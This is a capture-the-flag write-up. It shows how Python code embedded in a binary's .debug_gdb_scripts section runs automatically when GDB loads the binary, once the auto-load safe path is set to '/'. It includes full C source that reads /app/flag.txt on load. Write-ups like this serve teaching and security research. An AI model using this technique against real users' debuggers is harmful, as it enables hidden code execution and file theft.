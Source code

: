 # Debuggable-2
> GDB is safe if you never run the binary right?

## Files

```
Dockerfile
run.py
script
```

This time we have an extra file `script` that has one line: `set auto-load safe-path /`

This script is put in our .gdbinit for our docker container

The `run.py` has also changed to run:
```
q
```

## Approach

`set auto-load safe-path /` basically lets gdb run any script that is embedded in our binary

So all we have to do is embed malicious python code in our binary that outputs the contents of `/app/flag.txt`

Looking at the [GDB Docs](https://sourceware.org/gdb/current/onlinedocs/gdb.html/dotdebug_005fgdb_005fscripts-section.html) we can see some examples for embedding python code

There are 2 ways to do this:
- embedding a refrence to a python script
- embedding a python script itself

We will use the second since we can't use any python scripts on the server

## Solution

We make a basic c file using the docs sample:
```
asm(
".pushsection \".debug_gdb_scripts\", \"MS\",@progbits,1\n"
".byte 4\n"                          // SECTION_SCRIPT_ID_PYTHON_TEXT = 4
".ascii \"gdb.printflag\\n\"\n"
".ascii \"import gdb\\n\"\n"
".ascii \"f = open('/app/flag.txt', 'r')\\n\"\n"
".ascii \"content = f.read()\\n\"\n"
".ascii \"f.close()\\n\"\n"
".ascii \"gdb.write(content)\\n\"\n"
".byte 0\n"
".popsection\n"
);

int main(){}
```

which embeds the python code:
```
import gdb
f = open('/app/flag.txt', 'r')
content = f.read()
f.close()
gdb.write(content)
```

Compile this, and we have successfully created a binary that will immediately dump the contents of `/app/flag.txt` upon loading the binary

Convert this to base64 send to the instance and we get our flag `.;,;.{random_embedded_scripting_languages_what_could_possibly_go_wrong}`
